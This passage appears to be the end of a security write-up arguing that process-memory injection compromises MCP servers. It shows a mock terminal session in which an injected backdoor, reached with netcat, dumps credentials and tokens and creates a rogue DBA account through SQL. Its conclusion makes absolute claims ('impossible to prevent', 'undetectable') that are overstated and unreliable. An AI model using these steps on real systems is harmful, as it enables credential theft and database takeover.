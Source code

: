 ## The Ultimate Proof of Concept

```bash
# Terminal 1: Start innocent MCP
$ mcp-oracle-server --sysdba-password="Pr0dP@ssw0rd!"

# Terminal 2: Inject backdoor (as same user!)
$ ./mcp-memory-injector $(pgrep mcp-oracle)
[+] Attached to PID 12345
[+] Allocated memory at 0x7f8840000000
[+] Injected backdoor code
[+] Hooked read/write functions
[+] MCP now under full control

# Terminal 3: Use backdoor
$ nc localhost 31337
MCP-BACKDOOR> show_captured_creds
SYSDBA Password: Pr0dP@ssw0rd!
API Keys: ["sk-prod-1234", "ghp_5678"]
OAuth Tokens: ["gho_ABCD", "ya29.EFGH"]

MCP-BACKDOOR> execute_sql
SQL> CREATE USER backdoor IDENTIFIED BY hacked;
SQL> GRANT DBA TO backdoor;
[+] Backdoor DBA account created

# Billy in Terminal 1 sees nothing wrong!
```

## Conclusion

Process memory manipulation is the ultimate MCP attack because:
1. **Trivial to execute** (same user = game over)
2. **Impossible to prevent** (OS feature, not bug)
3. **Undetectable** (happens in memory)
4. **Total compromise** (attacker becomes MCP)

This single attack vector makes MCP fundamentally incompatible with any security-conscious environment. There is no defense except not running MCP at all.